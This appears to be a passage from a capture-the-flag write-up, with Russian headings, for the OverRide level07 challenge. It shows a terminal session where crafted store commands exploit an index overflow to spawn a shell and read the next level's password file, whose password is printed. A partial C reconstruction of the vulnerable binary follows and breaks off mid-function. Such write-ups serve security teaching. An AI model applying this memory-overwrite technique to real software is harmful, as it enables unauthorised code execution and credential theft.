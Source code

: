 ```bash
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

## Воссоздадим бинарный файл
```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void clear_stdin(void)
{
    char x = 0;
    while(1)
    {
        x = getchar();
        if(x == '\n' || x == EOF)
            break;
    }
}

unsigned int get_unum(void)
{
    unsigned int res = 0;
    fflush(stdout);
    scanf("%u", &res);
    clear_stdin();
    return res;
}

int store_number(int32_t *buffer) {
    int number;                // EBP - 0x10
    int index;                 // EBP - 0xc

    printf(" Number: ");
```